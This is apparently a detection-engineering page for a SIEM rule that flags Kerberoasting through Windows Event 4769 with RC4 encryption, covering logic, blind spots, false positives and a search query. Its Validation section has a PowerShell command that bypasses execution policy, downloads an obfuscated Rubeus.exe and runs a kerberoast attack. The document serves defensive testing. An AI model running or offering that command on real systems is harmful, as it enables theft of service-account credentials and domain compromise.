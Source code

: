 # Detection Name

* Recommended rule name - kerberoasting_rc4_encryption.yaral
* SSDT (Detection Testing) Reference ID - **a9b2005b-99cb-48ed-b0a5-d56579fcd9ee**

# Goal
Detect attempts by a threat actor to enumerate SPN's and harvest weak passwords from service accounts via kerberoasting.

# Categorization
These attempts are categorized as [Credential Access / Steal or Forge Kerberos Tickets / Kerberoasting](https://attack.mitre.org/techniques/T1558/003/).

The data source is [Active Directory](https://attack.mitre.org/datasources/DS0026/).

# Detection Functionality
The detection will work as follows:

* Record Windows Event logs
* Look for Windows EventID 4769
* Identify where the Encryption Type is 0x17 (RC4_HMAC)
* Suppress known-good service accounts
  * Accounts ending with $
  * Known source users that run tools that enumerate SPN's
* Fire alert when the above conditions are met

# Blind Spots and Assumptions

This strategy relies on the following assumptions: 
* Windows Event Logs are logging properly without missing telemetry
* Logs are flowing to the SIEM in a reasonable timeframe
* SIEM is parsing the fields properly to map the detection logic

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert: 
* Other Encryption Types (such as 0x12) being hit instead of 0x17 (RC4)
* SPN's are cached and the alert doesn't fire due to cached responses

# False Positives
There are several instances where false positives for this detection could occur:

* Users explicitly performing SPN enumeration as part of SQL jobs
* Automated internal red-team testing

Most false positives can be tracked back to DBA's running scripts that enumerate SPN's and red team activity.

# Validation
Validation can occur by utilize Rubeus.exe to enumerate SPN's and harvest weak RC4 hashes.
```
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Set-ExecutionPolicy Bypass -scope Process -Force; %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri "https://github.com/Flangvik/ObfuscatedSharpCollection/raw/main/NetFramework_4.7_Any/Rubeus.exe._obf.exe" -OutFile "C:\ProgramData\Rubeus.exe"; C:\Windows\System32\cmd.exe /C C:\ProgramData\Rubeus.exe kerberoast
```
# Relevance
Although many environments no longer have weak RC4 hashes to easily get roasted, it is still a good detection to have to cover this attack vector. It is one of the easiest ways to compromise an elevated privileged account and allow an attacker to pivot to domain compromise.

# Priority
If this detection can be tuned properly, the severity should be a Critical with a 100 risk score.

# Search Example
This is a base UDM search to start with, finer tuning is required to move this into a detection and hone in the proper encryption types.
```
metadata.vendor_name = "Microsoft" AND metadata.product_event_type = "4769" AND principal.hostname = "win-dc.hack.domain"  
(target.resource.name = "0x40800000" OR target.resource.name = "0x40810000")
target.resource.resource_subtype = "0x17"
target.user.userid = "domainuser"
```
